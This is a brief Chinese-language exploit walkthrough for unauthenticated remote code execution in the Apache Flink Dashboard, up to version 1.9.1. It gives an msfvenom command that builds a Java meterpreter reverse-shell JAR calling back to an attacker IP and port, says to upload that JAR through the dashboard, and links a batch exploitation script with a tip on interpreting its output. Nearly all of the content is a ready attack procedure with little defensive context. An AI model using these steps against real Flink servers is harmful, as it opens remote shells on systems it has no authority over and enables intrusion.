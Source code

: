 Apache Flink Dashboard 未授权访问-远程代码命令执行
==================================================

一、漏洞简介
------------

Apache Flink的任意Jar包上传导致远程代码执行的漏洞

二、漏洞影响
------------

\<= 1.9.1(最新版本)

三、复现过程
------------

### 1、

    msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.20.166 LPORT=8989 -f jar > rce.jar

![](./.resource/ApacheFlinkDashboard未授权访问-远程代码命令执行/media/rId25.png)

### 2、

上传alewong Jar包

![](./.resource/ApacheFlinkDashboard未授权访问-远程代码命令执行/media/rId27.png)

![](./.resource/ApacheFlinkDashboard未授权访问-远程代码命令执行/media/rId28.png)

### 批量脚本

https://github.com/ianxtianxt/Apache-Flink-Dashboard-rec

    Ps:
    当注释掉 if 'Unable to load requested file' in str(data):
    之后，出现Token为空，或者 Unauthorized request 时候是不存在未授权访问的，而是带授权
